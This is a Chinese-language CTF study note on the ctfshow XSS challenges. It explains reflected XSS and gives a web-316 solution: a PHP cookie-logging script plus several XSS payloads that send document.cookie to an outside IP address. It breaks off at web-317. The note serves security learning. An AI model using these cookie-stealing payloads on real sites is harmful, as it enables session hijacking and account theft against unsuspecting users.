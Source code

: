 ```yaml
---
title: ctfshow xss
date: 2025-04-22 20:35:07
tags: xss
categories: 学习笔记
---
```


### 反射型(非持久化)

（1）原理
  反射型xss又称非持久型xss，是目前最普遍的类型，这种攻击方式往往具有一次性。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以称反射型XSS。

（2）攻击方式
  攻击者通过电子邮件等方式将包含xss代码的恶意链接发送给目标用户。当目标用户访问该链接时，服务器接受该用户的请求并进行处理，然后服务器把带有xss代码的数据发送给目标用户的浏览器，浏览器解析这段带有xss代码的恶意脚本后就会触发xss漏洞

### web-316

反射型xss

我们利用vps进行外带

先往vps里写入一个1.php

```php
<?php
	$cookie = $_GET['cookie'];
	$time = date('Y-m-d h:i:s', time());
	$log = fopen("cookie.txt", "a");
	fwrite($log,$time.':    '. $cookie . "\n");
	fclose($log);
?>

```

然后用js语句进行外带

```
<script>location.href="http://60.204.158.87/123/2.php?cookie="+document.cookie</script>
```

此外，也可以

```
<script>window.location.href='http://60.204.158.87/123/2.php?cookie='+document.cookie</script>
<input onfocus="window.open('http://60.204.158.87/123/2.php?cookie='+document.cookie)" autofocus>
<script>window.open('http://60.204.158.87/123/2.php?cookie='+document.cookie)</script>
```



### web-317

这题把script进行了过滤，我们使用img标签
